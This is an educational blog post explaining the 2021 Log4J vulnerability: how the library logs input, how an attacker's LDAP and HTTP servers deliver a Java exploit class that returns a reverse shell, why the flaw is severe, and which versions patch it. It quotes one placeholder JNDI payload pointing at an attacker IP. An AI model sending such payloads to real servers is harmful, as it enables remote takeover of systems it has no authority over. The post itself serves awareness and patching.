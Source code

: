 ```yaml
---
layout: post
permalink: /ELI5/:title/
title:  "ELI5 - Log4J"
---
```


## What is Log4J?
Log4J is a popular Java logging library, it is a utility that is used by many Java applications/software for logging purposes. For example, if a Java application utilises Log4J, error messages or events such as '404' can be recorded in a log. For an online game like Minecraft, the game server utilises the Log4J library to log commands typed by users/players in the console. 

On December 10th 2021, a vulnerability in this Log4J library was discovered which allows for malicious actors to execute remote commands in servers (that are using this utility).

## How does it work?
*To better understand how the exploit works, I recommend you try out this TryHackMe room called [Solar](https://tryhackme.com/room/solar). You can also read my Solar writeup [here](/blogs/thm-solar/)*. to see exploitation steps.

Malicious actors will typically scan the internet (i.e., public IP addresses) and footprint for Java applications. If an application is found to be using Java, it is likely that the Log4J library is also used and therefore the application is vulnerable.

*It might not be possible to detect if the Log4J utility is used, but an attacker can still try the malicious payload on any discovered Java applications to see if the payload works.*

The attacker will then host both an LDAP and HTTP Server. A malicious JNDI payload will then be sent using the vulnerable application. A malicious payload looks something like this `${jndi:ldap://[ATTACKER IP]:[LDAP Server Port Number]/Exploit}`. This causes the URL to be logged in one of Log4J's log files. However, this is where the vulnerability takes place. 

The URL is not only logged, but also evaluated. In other words, it is executed by the server running the Java application. The payload first initiates a connection to the attacker's LDAP Server on the specified port number, requesting for the `Exploit` class. The LDAP Server is also set up in a way such that it will redirect traffic to the HTTP Server. The HTTP Server will contain the exploit class. The exploit class is written in Java that could contain a simple code which returns a reverse shell connection to the attacker. It has to be written in Java so that the target server can understand the class and execute it remotely. 

In essense, when the malicious JNDI payload is executed, the command is logged and executed. This causes the remote server to initiate a connection to the attacker's LDAP Server to request for the specified exploit class. The connection is redirected to the HTTP Server where the exploit class is located. The exploit is then executed remotely by the vulnerable server and a reverse shell is returned. 

I have also designed a simple diagram illustrating the connections made between the attacker and target server/application.
![](/screenshots/log4j/log4j-diagram.png)

## Why is Log4J so dangerous?
The reasons why this vulnerability is so dangerous can be simplified into these reasons:<br>
1) `It is a popular utility used by MANY Java applications - both open-source and commercial softwares.` 
There are billions of devices & systems running Java applications in the world. Additionally, many of these applications uses the popular Log4J library for their logging purposes. Do you see where I am going with this?

If many applications run Java, the possibility of these applications using Log4J is also high due to its popularity. Hence, the discovery of the Log4J vulnerability is such a big deal because it is extremely likely that public-facing Java applications are vulnerable. 

2) `Attackers can gain remote command execution.`
This vulnerability leads to a remote command execution on the vulnerable application. This means that any attacker can use the malicious payloads on the vulnerability application, leading to a command execution over the internet. 

Some vulnerabilities require attackers to obtain physical access to the vulnerable system to further exploit it. Some vulnerabilities require attackers to have privileged access. However, Log4J is an easy-to-exploit vulnerability that does not have these requirements. The vulnerability provides attackers with access directly to the server, without the need to obtain physical or privileged access. The attackers can then leverage on this access to perform other malicious actions such as stealing confidential data from these vulnerable servers.

Hence, the fact that this vulnerability is so easy to exploit (due to lesser requirements i.e., not needing physical access and not needed privileged access) and that the outcome of the exploitation is a remote command execution, makes it an extremely dangerous vulnerability.


## Patching
If you are using a commercial application, please refer to the respective vendor for patching. Otherwise, it is recommended to upgrade the utility to versions `Log4j 2.3.2 (for Java 6), 2.12.4 (for Java 7), or 2.17.1 (for Java 8 and later).`
The updated versions can be found [here](https://logging.apache.org/log4j/2.x/download.html).